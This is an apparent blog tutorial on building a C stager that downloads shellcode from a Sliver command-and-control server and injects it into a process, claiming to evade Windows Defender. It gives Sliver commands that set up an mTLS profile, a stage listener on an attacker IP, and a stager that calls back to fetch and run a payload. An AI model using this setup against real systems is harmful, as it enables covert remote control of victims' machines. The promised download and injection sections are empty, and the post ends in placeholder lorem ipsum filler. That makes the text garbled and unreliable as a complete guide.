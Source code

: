 ```yaml
---
title: C Program - Download and Inject ShellCode With Sliver
date: "2021-01-01"
---
```


In this post we're going to create a C program that will get some shellcode and inject it into a process and fully bypassing Windows Defender (as of January 1, 2021).<!-- end -->
## 1.  Basics of Stager payloads

Before starting we need to understand what stager payloads are. If you've used Metasploit Framework then you might've seen that word being thrown around but never really understood what it means. In simple terms a stager is reponsible for establishing commmunication with the attacker's machine and downloading and executing a larger payload called the Stage. You may ask why we don't just download the Stage directly instead of having our stager download the stage. Well the reality is you won't always have the luxury of having unlimited memory for bytes. If you've done challenging Buffer Overflow labs then you see sometimes your limited to a certain amount of bytes, in that case you'd need to fit a small payload to grab your large payload.

## 2.  Sliver C&C Framework

I ran into Sliver while searching for different open source C&C frameworks to try out. We'll be using it to generate a stager and then establish communication with our target machine. Although it's still in beta mode, it has some impressive feautures you can check it out <a href="https://github.com/BishopFox/sliver">here</a>.

First we're going to generate a profile for our shellcode:

```javascript
new-profile --profile-name mrd0x-shellcode --mtls 10.0.0.197:443 --skip-symbols --format shellcode
```

*   --profile-name mrd0x-shellcode : Specifies the name of the generated profile
*   --mtls 10.0.0.197:443 : Specifies the use of Mutual-TLS and the listening IP and Port
*   --skip-symbols : Less stealthy payload is generated
*   --format shellcode: The format of the payload that will be used by this profile

Next we're going to start our listener and link the profile created in the previous step:

```javascript
stage-listener --url tcp://10.0.0.197:80 --profile mrd0x-shellcode
```

Finally we'll generate our stager file and set the listener IP and port:

```javascript
generate stager --lhost 10.0.0.197 --lport 80
```

## 3.  Using the WinSock2 Library to Download Our Stager



## 4.  Injecting shellcode into


![Train Tracks](./traintrack.jpg)

Nullam tristique ante quis gravida aliquet. Donec elementum, leo eu interdum mattis, erat quam vestibulum nunc, nec convallis eros risus ut enim. Sed maximus odio tincidunt velit congue molestie. Nunc in pharetra eros, id pulvinar justo. Pellentesque quis accumsan leo. Praesent efficitur magna a posuere viverra. Morbi sit amet tincidunt mauris. Vestibulum sed maximus felis.
